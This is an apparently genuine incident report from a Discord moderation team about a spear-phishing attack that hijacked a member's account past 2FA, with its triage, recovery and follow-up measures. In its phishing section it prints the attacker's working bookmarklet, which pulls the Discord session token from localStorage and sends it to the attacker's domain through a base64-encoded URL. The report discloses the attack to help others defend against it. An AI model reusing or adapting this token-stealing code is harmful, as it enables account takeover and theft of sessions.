 # 2023-05-29 Incident Report
## Summary
* One of our team members suffered a Discord account compromise via a spear phishing attack.
* 2FA was enabled, but the attack vector was able to bypass it.
* The attacker spammed scam messages on several of our clients' Discord servers.
* The attacker modified roles and permissions in at least one client's Discord server.
* We were able to kick the team member from all client Discord servers within about 15 minutes of the attack.
* We were able to delete the spam messages generated by the attacker almost immediately in servers where we have message delete permissions.
* We were able to identify how the attacker gained access and revoke it.

## Spear Phishing
The attacker reached out to several of our team members individually at different times making a reasonable sounding request for moderation services in their Discord server.
The attacker claimed to be from Rarible and had a vanity Discord invite for a Rarible Discord server with a significant number of server members.
The attacker's Discord server required verification (as is common across crypto Discord servers) which used a Discord integration to send the user to the attacker's website.
<details>
	<summary>Third Party Connection Request Image</summary>
	<img src="../images/attacker%20third%20party%20connection%20prompt.png" alt="third party connection request" width="400"/>
</details>

Upon authorizing, the victim was sent to ⚠️❗`https://asset-vulcan.com`❗⚠️ where the victim is instructed to complete the verification process by adding a bookmarklet and then opening discord in a browser window and clicking on the bookmarklet.

<details>
	<summary>Attacker Website Instructions Image</summary>
	<img src='../images/attacker%20website%20instructions.png' alt='attacker website instructions' width='600'/>
</details>

<details>
	<summary>Bookmarklet contents (formatted for readability)</summary>

```js
javascript: ! function() {
	if ('https://discord.com' !== this.document.location.origin) {
		alert('Drag this button to your bookmark and go to discord.com to get verified.')
	} else {
		location.reload()
		var i = document.createElement('iframe')
		document.body.appendChild(i)
		var token = i.contentWindow.localStorage.token
		token = token.replaceAll(atob('Ig=='),'')
		location.href = atob('aHR0cHM6Ly9hc3NldC12dWxjYW4uY29tL2FwaS92ZXJpZnk/ZGF0PQ==') + token
	}
}()
```
</details>
As soon as the victim follows these instructions, their logged in session token will be sent to the attacker.
The attacker will then be able to utilize that session (which already has gone through 2FA) to interact with Discord as that user.

## Triage
Our team strives to have at least 2 people on duty at all times, which paid off in this case because as soon as the attacker started spamming it was immediately noticed by another team member who was on shift.
Upon seeing the spammer, the team member deleted the spam messages they could, warned users to ignore the ones they couldn't, and alerted the Serv.eth founder (Micah Zoltu) of the issue (all within a minute of the spam commencing).
Upon receiving notification of the issue, our founder immediately began revoking all roles the compromised account had in all of our client's servers that our founder had access to do so in (most of them).
After this was complete, we realized that there was still a risk that the attacker may have sent direct messages to server members and so to further mitigate potential damage, the victim's account was then kicked from all of our client's discord servers.
The whole process took just under 15 minutes from time of compromise to being kicked from all servers.

## Recovery
Upon completion of the initial triage, we alerted all of our clients of the compromise in private channels within their respective Discord servers.
We were also able to establish contact with the victim and have them revoke all of their sessions, thus removing the attacker's access.

<details>
	<summary>How to Revoke All Sessions in Discord</summary>
	<img src='../images/revokee%20attacker%20access.png' alt='how to revoke all Discord sessions' width='600'/>
</details>

We then looked through the audit logs of all client discord servers where we have permission to do so and verified that the attacker didn't do anything other than spam.
There was one client's Discord server where the attacker removed some roles from users and adjusted channel permissions which had to be undone.
After reviewing the audit log, we then reviewed our team's permissions in servers where we have access to do so and removed "Manage Roles" permission from all except our founder where appropriate so any future compromise has limited damage.

## Future Protection
While our team is quite familiar with various scams and attacks in the crypto space since we deal with it daily, this one was novel in that it utilized a bookmarklet as a novel delivery mechanism.
Our internal policy already requires 2FA for all of our members to help limit the chances of this sort of thing occurring, but unfortunately this attack vector is able to bypass 2FA requirements.
The primary thing we will be doing internally to limit the chance of this happening again is additional training both on the specifics of this attack (bookmarklets) as well as general best practices of not doing anything that is out of the ordinary.

For our clients, we recommend reviewing all permissions and ensuring only necessary permissions are given whenever possible.
In this case, our team had "Manage Roles" permission in several servers which wasn't something that everyone needed (only one of us needs to be able to add/remove team members) and in one server this permission was leveraged to make the attack worse.
In many of our client servers we do need kick/ban permissions in order to be able to help manage spammers/scammers, but luckily the attacker didn't appear to leverage this permission during the attack.

We also will continue to strive to always have multiple people on-shift at a time to ensure we can respond quickly to situations like this, as well as making sure there is a way to quickly escalate to our founder who has additional permissions in most servers so they can kick any of our team's compromised accounts should this happen again.
